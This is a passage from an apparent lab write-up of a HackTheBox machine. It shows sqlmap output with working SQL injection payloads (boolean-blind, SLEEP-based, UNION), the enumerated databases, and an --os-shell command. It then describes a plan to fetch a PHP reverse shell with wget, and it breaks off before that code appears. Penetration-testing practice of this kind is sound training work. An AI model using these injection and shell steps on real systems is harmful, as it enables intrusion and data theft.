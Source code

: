 [*] starting @ 20:42:22 /2019-10-15/

[20:42:23] [INFO] resuming back-end DBMS 'mysql'
[20:42:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 1133=1133

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: cod=1 OR SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-5818 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71627a6b71,0x46674577596d525958626f4b6f426545445a6b485a4655705855484b476c454a47705171796f4456,0x7170787171),NULL,NULL-- KnHI
---
[20:42:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[20:42:24] [INFO] fetching database names
[20:42:24] [INFO] used SQL query returns 4 entries
[20:42:24] [INFO] retrieved: 'hotel'
[20:42:25] [INFO] retrieved: 'information_schema'
[20:42:25] [INFO] retrieved: 'mysql'
[20:42:25] [INFO] retrieved: 'performance_schema'
available databases [4]:                                                                                                                                                            
[*] hotel
[*] information_schema
[*] mysql
[*] performance_schema
{% endhighlight %}

From here, I dove deep into enumerating the databases, tables and columns. I was able to find some credentials, but that led nowhere. For the sake of this writeup, I will spare those details. But SQLMap also has the ability to not only find this information. SQLMap also provides tools such as shells, and one of those shells is an interactive system shell (--os-shell):

{% highlight bash linenos %}
sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --os-shell
Use Default <PHP>
Use Default Dir
{% endhighlight %}

And that returned a shell. Enumerating this shell, there is wget. Wget allows me to download a file from an external web server. So, I headed over to pentest monkey and downloaded a php-reverse-shell (http://pentestmonkey.net/tools/web-shells/php-reverse-shell). I downloaded this shell, modified my IP and port in the file, and saved it into a directory in my Kali. Below are the lines I modified, that are just under the comments, where the //CHANGE THIS comments are:
